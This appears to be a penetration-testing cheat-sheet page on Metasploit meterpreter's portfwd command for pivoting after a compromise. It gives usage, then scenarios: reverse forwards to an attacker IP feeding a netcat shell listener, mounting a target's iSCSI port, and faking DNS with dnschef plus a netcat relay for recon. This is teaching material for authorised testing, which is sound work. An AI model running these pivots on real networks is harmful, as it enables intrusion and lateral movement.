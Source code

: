 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - scenarios
  - metasploit-framework
  - cross-platform
credits:
  - Abed Samhuri
  - Borja Merino
---
```

# Metasploit

## 01 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

## 02 - Usage

Bind port from the target.

```
meterpreter > portfwd add -l -r <target_IP> <local_port> -p <bind_port>
```

Reverse port forwarding from the compromised target.

```
meterpreter > portfwd add -R -L <attacker_IP> -r <compromised_target_IP> -l <local_port> -p <bind_port>
```

List active port forwarding rules.

```
meterpreter > portfwd list
```

Remove port forward rule.

```
meterpreter > portfwd delete -r <target_IP> -l <local_port> -p <bind_port>
```

Remove all port forwarding rules

```
meterpreter > portfwd flush
```

## 03 - Scenarios

### 3.1 - Shell Handler Reverse Callback Session

```
meterpreter > portfwd add -R -L <attacker_IP> -l 5986 -p 5986

$ nc -lnvp 5986
```

### 3.2 - Bind port and exploit

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -p <bind_port>
```

### 3.3 - Bind ISCSI port and mount it

Refer to this [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/File Server/ISCSI|section]] after a successful port forwarding.

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -p 3260

# iptables -t nat -A OUTPUT -p tcp --dport 3260 -d <target_IP> -j DNAT --to-destination 127.0.0.1:<local_port>
```

### 3.4 - Reverse Bind Port Forwarding

This method is similar to this [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivot/Cross Platform/P2P Callback Implants/Metasploit|section]] but solely used with `portfwd` by binding it to a compromised target and can be used with not just a shell handler (or C2 frameworks), but with hosting a web server, FTP, etc.

```
meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>
```

### 3.5 - DNS Port Forwarding To Perform Quick Recon

> [!NOTE]
> You must be connected in a **LAN (Local Area Network)** as this doesn't require SOCKS proxy server since this scenario does not involve when it's connected from outside the internet.

TODO: Refer to the links (under Scenarios section) with [[DNSChef]] or use just netcat to listen port 53 instead

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -L 127.0.0.1 -p 53
```

```
root@hackware-os:~# dnschef --fakedomains <domain>.<tld> --fakeip '<attacker_IP>' fakealias www.<domain>.<tld> --fakens ns.<domain>.<tld> -p <local_port> -q
```

```
root@hackware-os:~# mkfifo /tmp/fifo

root@hackware-os:~# nc -lup 53 < /tmp/fifo | nc localhost 6667 > /tmp/fifo

root@hackware-os:~# cat /etc/resolv.conf
..[omitted]..
nameserver 127.0.0.1

$ cat /etc/dnsmasq.conf
..[omitted]..
```

Scan the network via DNS lookup.

```
$ for ip in 192.168.1.{1..254}; do $(host $ip 127.0.0.1); done

$ nmap -sL --dns-servers 127.0.0.1 192.168.1.0/24
```

---
## References

### Metasploit Unleashed

- [Metasploit Unleashed: Portfwd](https://www.offsec.com/metasploit-unleashed/portfwd/)

### RawSec

- [noraj: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

#### MrAcouch

- [MrAcouch:  Basic Pivoting Techniques - Putting it all together (meterpreter and covenant) ](https://www.youtube.com/watch?v=DbC195f288c)

#### Abed Samhuri

- [Abed Samhuri: How to Implement Pivoting and Relaying Techniques Using Meterpreter](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)

#### Hacking Tutorials

- [Hacking Tutorials: Port forwarding - Accessing local ports remotely](https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/)

#### Security Art Work

- [Security Art Work: DNS Port Forwarding con Meterpreter](https://www.securityartwork.es/2011/06/01/dns-port-forwarding-con-meterpreter/)